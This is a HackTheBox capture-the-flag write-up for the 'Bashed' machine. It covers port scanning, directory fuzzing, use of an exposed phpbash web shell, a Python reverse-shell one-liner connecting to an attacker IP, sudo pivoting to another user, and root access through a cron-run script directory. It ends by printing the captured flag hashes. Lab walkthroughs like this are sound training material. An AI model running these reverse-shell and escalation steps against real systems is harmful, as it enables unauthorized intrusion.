

#HackTheBox 

## <span style="color:#92d050">About </span>

Bashed is a fairly easy machine which focuses mainly on fuzzing and locating important files. As basic access to the crontab is restricted,

------
## <span style="color:#92d050">Recon</span> 

Nmap scan : 
```shell
nmap -A 10.10.10.68 -oN nmap_scan.txt 
```

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-22 05:31 EDT
Nmap scan report for 10.10.10.68
Host is up (0.35s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.70 seconds
```

we only have one port open that greatly reduce our time of enumeration .
Operating System : Linux 

---------
## <span style="color:#92d050">HTTP - 80</span> 

 - we have apache httpd service running on port 80 .
 - version : Apache httpd 2.4.18 ((Ubuntu))

Site : 

General information about php bash on site .

after some enumeration we find out that php bash is implemented on this system as well .
![[Pasted image 20230822153753.png]]

so I run gobuster to find the directory :
```
gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .html,.php,.xml,.txt
```

```
/.html                (Status: 403) [Size: 291]
/.php                 (Status: 403) [Size: 290]
/index.html           (Status: 200) [Size: 7743]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/contact.html         (Status: 200) [Size: 7805]
/about.html           (Status: 200) [Size: 8193]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/config.php           (Status: 200) [Size: 0]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
```

I found lot's of directory and started looking for phpbash.php and found it in /dev :
![[Pasted image 20230822154010.png]]

I click on it and it allowed me to run cmd on target machine so i use python reverse shell to connect to my attacker machine nc listener :
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.2",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

before i started a nc listener and got a shell .
```
connect to [10.10.16.2] from (UNKNOWN) [10.10.10.68] 55758
www-data@bashed:/var/www/html/dev$ whoami
www-data
www-data@bashed:/var/www/html/dev$
```

user.txt :
```
www-data@bashed:/home/arrexel$ cat user.txt
cat user.txt
88d56d080afddcb62d805e3d09cb7ef2
www-data@bashed:/home/arrexel$ sudo -l
```

I Found user.txt in user arrexel home directory .

-------
## <span style="color:#92d050">Priv Esc</span> 

#Linux

 - After Getting initial access we started post exploitation by first checking the sudo right .

```
www-data@bashed:/home/arrexel$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL

```

and find out i can run any thing as user scriptmanager .

so i run this cmd to get scriptmanager's shell :
```
sudo -u scriptmanager bash -i
```

and we switch to user :
```
scriptmanager@bashed:/home$ whoami
whoami
scriptmanager
scriptmanager@bashed:/home$
```

I moved to "/" directory and found a /script directory with scriptmanager as owner usually all directory in "/" are owned by root :
![[Pasted image 20230822163842.png]]

checking /scripts:
```
scriptmanager@bashed:/scripts$ ls -al
ls -al
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Jun  2  2022 .
drwxr-xr-x 23 root          root          4096 Jun  2  2022 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Aug 22 04:04 test.txt
```

we have two files and we have read permission to both of them .
checking content of test.txt :
```
scriptmanager@bashed:/scripts$ cat test.txt 
cat test.txt 
testing 123!
```

checking test.py :
```
testing 123!scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

if we look closely test.py is writing to test.txt but test.txt is owned by root and only he can write , that means test.py is executing with root permission in fact all python files in "/scripts" are executing as root permission because of cronjob mentioned in about section .

so i stored a reverse shell code in rev.py and transfer it using python http server and wget on target machine :
![[Pasted image 20230822164503.png]]

I started a nc listener and wait for some time for script to run and i got a reverse shell .
```
rlwrap nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.10.68] 55176
# whoami
whoami
root
```

I spawn a tty shell using python one liner :
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

the root.txt :
```
root@bashed:~# ls -al
ls -al
total 28
drwx------  3 root root 4096 Jun  2  2022 .
drwxr-xr-x 23 root root 4096 Jun  2  2022 ..
lrwxrwxrwx  1 root root    9 Jun  2  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root 3121 Dec  4  2017 .bashrc
drwxr-xr-x  2 root root 4096 Jun  2  2022 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--------  1 root root   33 Aug 22 04:00 root.txt
-rw-r--r--  1 root root   66 Dec  4  2017 .selected_editor
root@bashed:~# cat root.txt 
cat root.txt 
7d0e756e0b28cee1b2a7de2cb4b28053
root@bashed:~# 
```

